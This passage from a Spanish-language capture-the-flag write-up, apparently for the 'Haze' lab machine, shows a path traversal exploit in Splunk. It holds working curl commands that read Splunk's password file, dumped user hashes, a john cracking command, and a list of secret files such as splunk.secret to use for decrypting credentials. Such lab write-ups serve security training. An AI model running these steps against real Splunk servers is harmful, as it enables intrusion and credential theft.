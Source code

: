 Podemos aprovechar esto realizando una solicitud HTTP a `/messaging` de la siguiente manera, donde retrocederemos unos cuantos directorios hasta alcanzar un archivo del sistema

~~~ bash
/modules/messaging/../../../../../etc/passwd
~~~

Como estamos en un entorno `Windows`, debemos manipular ligeramente la URL para apuntar a archivos confidenciales, como `/etc/passwd`, que existe dentro de la carpeta `C:/Program Files/Splunk/`. Haremos pruebas retrocediendo directorios hasta que veamos el archivo

~~~ bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd

:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
~~~

Rápidamente podemos extraer los hashes y guardarlos en un archivo, por ejemplo `hashes.txt`

~~~ bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd > etc_passwd.txt | awk -F ':' '{print $3}' > hashes.txt
~~~


## (Posible) Hash Cracking

Con estos hashes, que corresponden al formato `sha512crypt`, si intentamos descifrarlos, nos llevará un largo largo tiempo dado que son varios hashes, donde posiblemente encontremos alguna contraseña que figure dentro del archivo `rockyou.txt`. Sin embargo, decidí abandonar esta posibilidad

~~~ bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
~~~


## Reading `Splunk` Confidential Files

Con una búsqueda rápida podremos encontrar un listado de archivos sensibles así como la ruta de acceso

- `/etc/passwd`: Este archivo es utilizado en la autenticación de usuarios, similar al `/etc/passwd` de Linux, solo que guarda los hashes directamente
- `/etc/apps/appname/local/authentication.conf`: Configuración de autenticación, usuarios LDAP, etc.
- `/etc/auth/splunk.secret`: Clave maestra que se utiliza para encriptar información dentro de `Splunk`, con ella podríamos intentar desencriptar las contraseñas en formato hash que encontramos.

Consultaremos la clave interna de `Splunk`, la utilizaremos para desencriptar credenciales
